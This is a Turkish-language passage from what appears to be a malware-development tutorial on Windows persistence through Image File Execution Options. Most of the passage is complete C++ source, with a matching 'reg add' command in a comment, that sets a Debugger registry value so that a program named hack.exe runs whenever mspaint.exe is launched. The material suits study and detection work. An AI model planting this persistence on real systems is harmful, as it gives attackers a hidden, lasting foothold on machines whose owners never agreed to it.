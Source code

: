 ![pers](./images/68/2022-09-12_02-26.png){width="80%"}    

> `WerFault.exe` - işletim sistemi, Windows özellikleri ve uygulamalarla ilgili hataları izlemek için kullanılır.    

### IFEO hata ayıklayıcı türü (IFEO debugger type)

IFEO'nun başka bir uygulaması debugger anahtarı üzerinden yapılabilir.    
Sadece şu kayıt defteri anahtarında bir hata ayıklayıcı oluşturun:    

`HKLM\Software\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\mspaint.exe`     

Böylece, yalnızca kötü amaçlı uygulamanın `System32` içine kaydedilmesi yeterlidir.    

Kaynak kodu basittir ve şu şekilde görünmektedir:    

```cpp
/*
pers2.cpp
windows persistence via IFEO 2(Debugger)
author: @cocomelonc
https://cocomelonc.github.io/malware/2022/09/10/malware-pers-10.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;
  DWORD gF = 512;
  DWORD rM = 1;

  // image file
  const char* img = "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Image 
  File Execution Options\\mspaint.exe";

  // evil app
  const char* exe = "hack.exe";

  // Debugger
  LONG res = RegCreateKeyEx(HKEY_LOCAL_MACHINE, (LPCSTR)img, 0, NULL, 
  REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry key
    // reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File 
    // Execution Options\mspaint.exe" /v Debugger /d "hack.exe"
    RegSetValueEx(hkey, (LPCSTR)"Debugger", 0, REG_SZ, (unsigned char*)exe, 
    strlen(exe));
    RegCloseKey(hkey);
  }

  return 0;
}
```
